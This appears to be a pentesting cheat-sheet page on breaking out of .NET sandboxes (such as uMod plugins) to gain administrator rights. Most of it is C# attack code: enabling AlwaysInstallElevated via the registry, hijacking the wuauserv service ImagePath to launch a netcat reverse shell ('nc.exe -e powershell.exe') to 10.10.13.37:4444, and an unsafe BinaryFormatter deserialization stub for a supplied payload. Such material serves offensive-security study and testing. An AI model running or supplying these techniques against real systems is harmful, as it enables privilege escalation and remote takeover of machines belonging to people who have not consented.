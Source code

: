### .NET Sandboxes

When an attacker can compile arbitrary code in privileged context but a Sandbox is in game (like in [uMod](https://umod.org/documentation/api/security)) the following approaches can be leveraged to gain admin privs:

* Registry keys manipulation.
* Deserialization [attacks](https://book.hacktricks.xyz/pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net).

Example #1 (Registry) - AlwaysInstallElevated:

```csharp
using Microsoft.Win32;
...
using (var hklm = RegistryKey.OpenBaseKey(RegistryHive.LocalMachine, RegistryView.Registry64))
using (var key = hklm.CreateSubKey(@"SOFTWARE\Policies\Microsoft\Windows\Installer", true))
{
	key.SetValue("AlwaysInstallElevated", 0x1, RegistryValueKind.DWord);
}

using (var hkcu = RegistryKey.OpenBaseKey(RegistryHive.CurrentUser, RegistryView.Registry64))
using (var key = hkcu.CreateSubKey(@"SOFTWARE\Policies\Microsoft\Windows\Installer", true))
{
	key.SetValue("AlwaysInstallElevated", 0x1, RegistryValueKind.DWord);
}
...
```

Example #2 (Registry) - Service binary path:

```csharp
using Microsoft.Win32;
...
RegistryKey key = Registry.LocalMachine.OpenSubKey(@"SYSTEM\CurrentControlSet\services\wuauserv", true);
if (key != null)
{
   key.SetValue("ImagePath", "c:\windows\system32\spool\drivers\color\nc.exe -e powershell.exe 10.10.13.37 4444", RegistryValueKind.String);
   key.Close();
}
...
```

Example #3 (Deserialization) - BinaryFormatter:

```csharp
using System;
using System.IO;
using System.Runtime.Serialization.Formatters.Binary;
...
byte[] payload = Convert.FromBase64String("<BASE64_PAYLOAD>");
//string payload_decoded = Encoding.UTF8.GetString(payload);
BinaryFormatter formatter = new BinaryFormatter();
Stream stream = new MemoryStream(payload);
object obj = formatter.Deserialize(stream);
...
```
